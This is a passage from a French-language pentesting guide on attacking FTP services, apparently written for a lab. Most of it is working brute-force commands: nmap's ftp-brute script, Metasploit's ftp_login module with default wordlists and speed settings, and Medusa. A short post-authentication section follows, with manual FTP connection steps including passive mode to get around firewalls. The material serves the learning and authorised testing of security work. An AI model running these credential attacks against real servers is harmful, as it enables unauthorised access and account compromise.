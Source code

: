 #### Force brute ciblée
```bash
# Utilisateur spécifique (comme sysadmin dans le lab)
echo "sysadmin" > users.txt
nmap --script ftp-brute --script-args userdb=users.txt -p 21 <target>

# Avec wordlists personnalisées
nmap --script ftp-brute --script-args userdb=/path/to/users.txt,passdb=/path/to/passwords.txt -p 21 <target>

# Force brute basique avec listes par défaut
nmap --script ftp-brute -p 21 <target>
```

### 🎯 Avec Metasploit (Intégré au workflow)
```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set STOP_ON_SUCCESS false  # Pour trouver tous les comptes
set VERBOSE true
set BRUTEFORCE_SPEED 5     # Vitesse d'attaque
run

# Voir les credentials trouvés
creds
```

### Avec Medusa
```bash
# Syntaxe de base
medusa -h <target> -u <username> -P <password_file> -M ftp

# Attaque complète
medusa -h <target> -U /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -M ftp -t 10
```

---

## Phase 5: Exploitation post-authentification

### Connexion FTP manuelle
```bash
# Connexion basique
ftp <target>
# Entrer username/password

# Connexion avec port personnalisé
ftp <target> 2121

# Mode passif (pour contourner les firewalls)
ftp <target>
passive
```

